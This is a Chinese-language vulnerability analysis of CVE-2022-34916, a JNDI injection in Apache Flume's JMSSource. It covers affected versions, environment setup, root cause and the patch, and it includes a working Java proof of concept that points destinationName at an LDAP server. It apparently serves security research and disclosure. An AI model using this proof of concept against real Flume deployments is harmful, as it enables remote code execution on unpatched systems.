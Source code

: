- [CVE-2022-34916 Apache Flume JNDI注入](#cve-2022-34916-apache-flume-jndi注入)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
# CVE-2022-34916 Apache Flume JNDI注入
## 影响版本
< 1.10.1
## 环境搭建
activemq jms:`apache-activemq-5.17.1>bin\activemq start`  
![](2022-08-22-20-41-19.png)  
## 原理分析
从补丁看和之前的CVE-2022-25167类似。还是JMSSoure支持JNDI配置导致的JNDI注入,不过这次是对destinationName变量使用的协议进行了限制。
![](2022-08-22-20-42-50.png)  
而触发JNDI注入的位置就在后面。  
![](2022-08-22-20-45-33.png)  
而destinationName变量的值来自于该类的构造函数。  
![](2022-08-22-20-48-39.png)  
而漏洞所在的类JMSMessageConsumer没有用public修饰,也就是默认的包内访问权限,包外无法直接访问,创建JMSMessageConsumer类的方法实际在JMSSource类中。  
![](2022-08-22-20-49-34.png)  
可以看到传入的变量都是来自于JMSSource类自身,同样的该方法也是默认的修饰符,而调用该访问的地方有两个。  
![](2022-08-22-20-51-14.png)  
所以最后只用JMSSource类调用随意一个即可。  
但要走到JMSMessageConsumer类还需要经过CVE-2022-25167的触发点,首先在这里lookup的结果会转换为jms ConnectionFactory类,所以需要配置一个jms server,initialContextFactory的值也不能是com.sun.jndi.ldap.LdapCtxFactory,不然会ClassCast失败,需要一个jms类型的Factory,可以用org.apache.activemq.jndi.ActiveMQInitialContextFactory。  
![](2022-08-22-20-55-31.png)  
同时需要满足destinationLocator不为CDI,但其实destinationLocator一共就两个值,一个jndi一个CDI。最后来到漏洞触发点。
![](2022-08-22-20-56-28.png)  
## 漏洞复现
最后测试的Poc如下:
```java
import org.apache.flume.Context;
import org.apache.flume.channel.ChannelProcessor;
import org.apache.flume.channel.MultiplexingChannelSelector;
import org.apache.flume.source.jms.JMSSource;
import java.util.HashMap;

public class Flume_JNDI_POC {

    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchMethodException {
        JMSSource jmsSource = new JMSSource();
        HashMap<String,String> hashMap = new HashMap<>();
        hashMap.put("initialContextFactory","org.apache.activemq.jndi.ActiveMQInitialContextFactory");
        hashMap.put("providerURL","tcp://127.0.0.1:61616");
        hashMap.put("destinationName","ldap://127.0.0.1:1389/m5puzv");
        hashMap.put("destinationType","QUEUE");
        hashMap.put("destinationLocator","JNDI");
        Context context = new Context(hashMap);
        jmsSource.configure(context);
        jmsSource.setChannelProcessor(new ChannelProcessor(new MultiplexingChannelSelector()));
        jmsSource.start();

    }
}
```
![](2022-08-22-20-59-04.png)
## 补丁
同CVE-2022-25167,限制使用的协议只能为java。
